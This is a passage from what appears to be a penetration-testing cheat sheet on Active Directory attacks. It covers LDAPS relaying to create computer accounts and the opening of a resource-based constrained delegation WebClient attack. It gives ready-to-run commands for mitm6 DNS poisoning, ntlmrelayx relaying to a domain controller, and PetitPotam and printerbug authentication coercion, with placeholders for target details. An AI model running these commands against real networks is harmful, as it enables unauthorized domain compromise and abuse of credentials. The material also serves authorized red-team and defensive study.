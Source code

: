 ### LDAPS Relaying
- Relaying LDAPS can add a new computer account by abusing the fact that, by default, user are allowed to join domain up to 10 new computer objects
- When possible, use the FQDN instead of the IP address. The IP address works most of the time, but FQDN looks cleaner and avoids SNI certificate conflicts.
- Requires LDAPS binding to be turned off (default)

#### Check LDAPS binding
- https://github.com/zyn3rgy/LdapRelayScan
```
python3 LdapRelayScan.py -method BOTH -dc-ip <IP> -u <USER> -p <PASSWORD>
```

#### Enable the LDAPS relay
- Can wait for mitm6 to poison or force it
```
sudo python3 mitm6.py -d <DOMAIN> --ignore-nofqdn

ntlmrelayx.py -t ldaps://<DC IP> --add-computer <COMPUTER NAME> 
```

#### Trigger target to authenticate to attacker machine
- https://github.com/topotam/PetitPotam
- https://github.com/dirkjanm/krbrelayx
```
python3 PetitPotam.py -d <DOMAIN> -u <USER> -p <PASSWORD> <HOSTNAME ATTACKER MACHINE>@80/a <TARGET>

python3 printerbug.py <DOMAIN>/<USER>@<TARGET> <HOSTNAME ATTACKER MACHINE>@80/a
```

- When computer account is created. This account can be used to enumerate the domain!

### Resource Based Constrained Delegation Webclient Attack
- Requirements:
  - On a Domain Controller to have the LDAP server signing not enforced (default value) (Requires authentication to check)
  - On a Domain Controller to have the LDAPS channel binding not required (default value)
  - Able to add new machines accounts (default value this quota is 10) (Requires authentication to check)
  - On the network, machines with WebClient running (some OS version had this service running by default or use the webclient starting trick from DTMSecurity) (Requires authentication to check)
  - A DNS record pointing to the attacker’s machine (By default authenticated users can do this) (Requires authentication to add)

#### Check LDAPS Binding
- https://github.com/zyn3rgy/LdapRelayScan
```
python3 LdapRelayScan.py -method LDAPS -dc-ip <IP>
```

#### Start mitm6 and NTLMRelay
```
sudo python3 mitm6.py -d <DOMAIN> --ignore-nofqdn
sudo ntlmrelayx.py -t ldaps://<DC IP> --delegate-access 
```
